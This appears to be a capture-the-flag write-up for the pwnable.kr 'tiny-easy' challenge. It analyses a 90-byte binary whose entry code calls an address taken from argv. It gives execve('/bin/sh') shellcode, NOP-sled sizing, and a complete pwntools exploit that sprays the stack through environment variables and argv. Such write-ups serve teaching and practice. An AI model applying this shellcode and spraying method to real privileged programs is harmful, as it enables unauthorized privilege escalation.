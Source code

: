 ```yaml
---
layout: post
title:  Pwnable.kr - tiny-easy
categories: [pwnable.kr]
excerpt: Writeup for tiny-easy.
---
```

# Pwnable.kr - Tiny-Easy

The challenge can be found [here](http://pwnable.kr/play.php).

Without at least an attempt at the challenge, this writeup will probably not make much sense.
This is done to keep at least somewhat in the spirit of pwnable.kr style writeups.

# Initial insights

Immediately, an `ls -l` reveals the following about our binary:
```
-r-xr-sr-x 1 alexsieusahai alexsieusahai  90 Mar 24 19:44  tiny_easy
```
90 bytes?

What about `checksec`?
```
[*] '/home/alexsieusahai/pwnablekr/tiny_easy/tiny_easy'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```
Okay, NX bit off, no PIE and no ASLR, running on a 32 bit arch.

Okay, so with that in mind, if we try to run it, what happens?
```
alexsieusahai@mypc:~/pwnablekr/tiny_easy$ ./tiny_easy 
Segmentation fault (core dumped)
```
It just segfaults, perhaps unsurprisingly; 90 bytes is pretty much no instructions when you consider the fact that you still have to cram in other bytes to make your binary ELF compliant.

Popping the binary into Ghidra, we can see that basically nothing happens, and
we can also see why we segfault:
```
                             undefined entry()
             undefined         AL:1           <RETURN>
                             entry                                           XREF[2]:     Entry Point(*), 08048018(*)  
        08048054 58              POP        EAX
        08048055 5a              POP        EDX
        08048056 8b 12           MOV        EDX,dword ptr [EDX]
        08048058 ff d2           CALL       EDX

```
Okay, so we need to in some way control the values on the stack, in order to have that `CALL` instruction lead somewhere that we care about and eventually pop a shell.

# Defining the attack surface
Initially, what does our stack look like?
We care about this especially, as the second value will determine what we end up calling.
```
00:0000│ esp 0xffc4ef70 ◂— 0x1
01:0004│     0xffc4ef74 —▸ 0xffc4f154 ◂— '/home/alexsieusahai/pwnablekr/tiny_easy/tiny_easy'
02:0008│     0xffc4ef78 ◂— 0x0
03:000c|     env_vars...
```
Importantly, the top of the stack is argc, and the second part of the stack (these two values) are argv.

Perhaps surprisingly, the convention that `argv[0]` is the path to the executable is just a convention, and is not enforced anywhere in `execve`, which is how our binary is launched by the OS:

```
alexsieusahai@mypc:~/pwnablekr/tiny_easy$ strace ./tiny_easy
execve("./tiny_easy", ["./tiny_easy"], 0x7ffe85bed0c0 /* 55 vars */) = 0
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x69742f2e} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

Since this can be arbitrary, and we have the no-execute bit off on our stack, we can simply include shellcode onto the stack, and then store the address to our shellcode in the environment variable!

Now, moving further on our machine is fairly trivial; we know that we want to pop a shell with group privileges, which will look like
```
setregid(tiny_easy_pwn_gid);
execve('/bin/sh', NULL, NULL);
```
But, we don't know the precise location of the stack on the target machine, to the best of my knowledge.
But, thankfully, this is very similar to a closely related idea of a JIT spray.
Spraying our shellcode everywhere we can in hopes that we land there is indeed reasonable, and will be our plan of attack.

# Crafting the exploit
Our shellcode is nothing surprising:
```
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
xor edx, edx
xor eax, eax
xor al, 11
int 0x80
```
One thing to note is that we can't have any nulls in our shellcode, but other than that it's fairly cut and dry.

Since we can't inspect our pwnable.kr machine using gdb for this challenge, we simply just have to guess our stack location and hope that we land on our shellcode.
A common pattern that follows after this idea is making this "good" area in which we jump as big as possible (similarly to, say, making the window in a race condition bigger, which is perhaps the most obvious line of thinking for this idea).
That is, we will make our jump as big as possible using NOP sleds, and we'll carefully make decisions on maximizing the number of "favorable" jumps to achieve success (by far compared to other writeups available on this problem) very frequently.

[It appears like the max length of an environment variable is 128 kilobytes](https://github.com/torvalds/linux/blob/master/include/uapi/linux/binfmts.h), so we'll try to make as much use of this as possible.
In particular, we know that we're passing in `argv` as just `[stack_address]`, so we burn only 4 bytes of our `PAGE_SIZE * 32` bytes available (note `PAGE_SIZE` is 4096; see introductions to virtual memory to demystify this number).
Moreover, in our `env`, we burn 2 bytes on `some_byte=`, such as (in our case) `0=`.
So, this leaves us with the following NOP sled:
```python
shellcode = b'\x90' * (4096 * 32 - 6 - len(shellcode)) + shellcode
```

Now, this is just the max for one given environment variable.
The next thing we should care about is how long our `execve()` syscall is allowed to be at all!
Apparently (and in retrospect not surprisingly), the [answer is not portable](https://www.in-ulm.de/~mascheck/various/argmax/), and thus I just do a little trial and error.

I ended up putting as many vars into my environment until something complained, and similar for spraying into `argv`.

# The final exploit

No implementation details or gotchas below, but for completion, this is the full exploit.

```python
import os
from pwn import *

STACK_LOC = b'\xff\xff\xee\xff'
shellcode = asm('''
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
xor ecx, ecx
xor edx, edx
xor eax, eax
xor al, 11
int 0x80
xor eax, eax
inc eax
int 0x80
''')

shellcode = b'\x90' * (4096 * 32 - 6 - len(shellcode) + 3) + shellcode

env = {str(i) : shellcode for i in range(10)}
argv = [STACK_LOC] + [shellcode] * 5
for _ in range(0x100):
    p = process(argv=argv, executable='./tiny_easy', env=env)
    try:
        p.sendline('whoami')
        p.recv(100)
    except Exception as e:
        print('failure...')
        continue

    p.interactive()
```
